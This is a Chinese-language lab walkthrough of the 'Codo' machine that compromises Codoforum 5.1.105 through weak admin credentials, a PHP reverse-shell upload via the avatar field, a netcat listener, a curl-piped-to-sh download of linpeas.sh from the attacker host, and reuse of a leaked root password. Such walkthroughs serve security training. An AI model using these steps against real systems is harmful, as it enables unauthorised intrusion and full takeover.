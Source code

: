 ```yaml
---
description: Linux - Easy：CODOFORM V.5.1.105
---
```


# ✔️ Codo

## 建立立足点

### 信息枚举

使用Nmap对目标系统进行开放端口扫描，获得2个端口：22和80

```bash
nmap -sC -sV -p- -oA codo 192.168.200.23 --open  
```

<figure><img src="../.gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

检查80端口上的Web页面：

<figure><img src="../.gitbook/assets/2 (3).png" alt=""><figcaption></figcaption></figure>

尝试枚举80端口上的隐藏文件/目录，并在**/admin**路径上发现登录界面：

```bash
dirsearch -u http://192.168.200.23
```

<figure><img src="../.gitbook/assets/3 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

尝试用弱口令<mark style="color:red;">**admin:admin**</mark>登录成功：

<figure><img src="../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

并且发现目标正在使用的是：CODOFORM V.5.1.105

<figure><img src="../.gitbook/assets/6 (3).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

查找相关漏洞发现其有一个远程命令执行的漏洞可以利用：

```bash
searchsploit codoforum 5.1
searchsploit -m 50978.py .
```

<figure><img src="../.gitbook/assets/7 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

根据该脚本的使用方法所构造的命令确认无误后，发现始终无法利用成功。但仍然从该脚本中获取到了重要的信息：**可在admin设置中上传脚本**

<figure><img src="../.gitbook/assets/9 (3).png" alt=""><figcaption></figcaption></figure>

决定直接在admin后台中上传反弹shell来get shell。

* 先在全局设置中的可上传文件类型中**添加.php**，以方便后续上传**php-reverse-shell.php脚本**

<figure><img src="../.gitbook/assets/10 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

* 然后准备好php-reverse-shell.php脚本，修改好反弹shell监听的主机IP和端口号，并在Kali本机监听好端口：

```bash
// Kali本机监听
nc -lvnp 1234
```

<figure><img src="../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

* 在用户->管理用户->admin的设置页面中，找到头像上传项，并将准备好的反弹shell脚本上传后，点save键触发脚本：

<figure><img src="../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

成功获得反弹shell，并获得local.txt：

<figure><img src="../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

上传LinPEAS.sh脚本，对目标进行本地信息收集，已发现可利用的提权漏洞：

```bash
// Kali本机准备好linpeas.sh脚本，并在所属目录下开启服务器
python3 -m http.server
// 在目标系统中，下载linpeas.sh到本地并且直接执行
curl -L 192.168.45.172:8000/linpeas.sh |sh
```

<figure><img src="../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

阅读linpeas.sh脚本的输出结果后，发现一个密码：<mark style="color:red;">**FatPanda123**</mark>

<figure><img src="../.gitbook/assets/18 (2).png" alt=""><figcaption></figcaption></figure>

并且已知当前系统上有两个用户账户：offsec和root，分别尝试后发现它是root账户的密码。

### ROOT

<figure><img src="../.gitbook/assets/19 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
